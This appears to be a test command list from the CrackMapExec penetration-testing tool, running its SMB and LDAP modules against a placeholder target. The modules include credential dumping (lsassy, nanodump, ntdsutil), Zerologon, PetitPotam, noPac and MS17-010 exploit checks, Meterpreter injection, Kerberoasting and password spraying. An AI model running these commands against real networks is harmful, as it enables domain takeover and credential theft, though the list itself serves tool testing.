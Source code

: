 crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M spooler -M petitpotam -M zerologon -M nopac -M dfscoerce -M enum_av -M enum_dns -M gpp_autologin -M gpp_password -M lsassy -M impersonate -M install_elevated -M ioxidresolver -M ms17-010 -M ntlmv1 -M runasppl -M shadowcoerce -M uac -M webdav -M wifi<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M bh_owned --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M dfscoerce --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M empire_exec --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M enum_av --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M firefox --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M get_netconnections --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M gpp_autologin --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M gpp_password --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M hash_spider --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M impersonate --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M install_elevated --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ioxidresolver --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M keepass_discover --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M keepass_trigger --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M lsassy --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M masky --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M met_inject --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ms17-010 --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M msol --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M nanodump --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M nopac --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ntdsutil --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M ntlmv1 --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M petitpotam --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M procdump --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M rdcman --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M reg-query --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M runasppl --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M scuffy --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M shadowcoerce --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M slinky --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M spider_plus --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M spooler --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M teams_localdb --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M uac --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M veeam --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M wifi --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M winscp --options<br>
crackmapexec smb TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -M zerologon --options<br>
##### SMB Anonymous Auth<br>
crackmapexec smb TARGET_HOST -u '' -p '' -M zerologon<br>
crackmapexec smb TARGET_HOST -u '' -p '' -M petitpotam<br>
##### SMB Auth File<br>
crackmapexec smb TARGET_HOST -u data/test_users.txt -p test_passwords.txt --no-bruteforce<br>
crackmapexec smb TARGET_HOST -u data/test_users.txt -p test_passwords.txt --no-bruteforce --continue-on-success<br>
crackmapexec smb TARGET_HOST -u data/test_users.txt -p test_passwords.txt<br>
##### LDAP<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --users<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --groups<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --get-sid<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p '' --asreproast /tmp/output.txt<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --kerberoasting /tmp/output2.txt<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --trusted-for-delegation<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --admin-count<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS --gmsa<br>
##### LDAP Modules<br>
crackmapexec ldap TARGET_HOST -u USERNAME -p PASSWORD KERBEROS -L<br>
